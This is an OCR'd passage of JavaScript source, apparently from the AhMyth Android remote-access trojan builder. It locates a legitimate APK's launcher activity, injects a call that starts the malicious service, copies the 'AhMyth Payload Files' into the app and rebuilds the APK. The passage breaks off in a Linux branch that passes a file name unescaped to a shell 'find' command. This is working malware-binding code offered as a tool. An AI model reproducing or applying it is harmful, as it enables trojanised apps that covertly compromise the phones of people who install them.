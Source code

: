 ```js  
                fs.readFile(path.join(apkFolder, launcherPath), 'utf8', (error, data) => {
                    if (error) {
                        $appCtrl.Log('Reading Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                        $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
			$appCtrl.Log();
                        return;
                        }

                        var regex = /\/(\S+)\./;
                        var str = (apkFolder, launcherPath);
                        var m = str.replace(/\\/g, "/").match(regex);

                        var startService = CONSTANTS.serviceSrc + apkFolder.split(apkFolder).join((m[1])) + CONSTANTS.serviceStart;


                        var key = CONSTANTS.orgAppKey;
                        $appCtrl.Log("Modifiying Launcher Activity...");
                        $appCtrl.Log();
                        var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
                        fs.writeFile(path.join(apkFolder, launcherPath), output, 'utf8', (error) => {
                            if (error) {
                                $appCtrl.Log('Modifying Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                                $appCtrl.Log();
                                return;
                            }

                            var regex = /[^/]+\//;
                            var str = (apkFolder, launcherPath);
                            var m = str.replace(/\\/g, "/").match(regex);

                            var smaliFolder = m[0];

                            $appCtrl.Log("Copying AhMyth Payload Files to Orginal APK...");
                            $appCtrl.Log();
                            fs.copy(path.join(CONSTANTS.ahmythApkFolderPath, "smali"), path.join(apkFolder, smaliFolder), (error) => {
                                if (error) {
                                    $appCtrl.Log('Copying Failed!', CONSTANTS.logStatus.FAIL);
                                    $appCtrl.Log();
                                    return;
                                }
                                
                                $appCtrl.GenerateApk(apkFolder);
                
                            });
                            
                        });

                    });

                });

            } else if (process.platform === "linux") {
                $appCtrl.Log("Locating Launcher Activity...");
                $appCtrl.Log();
                exec('find -name "' + launcherActivity + '"', { cwd: apkFolder }, (error, stdout, stderr) => {
```
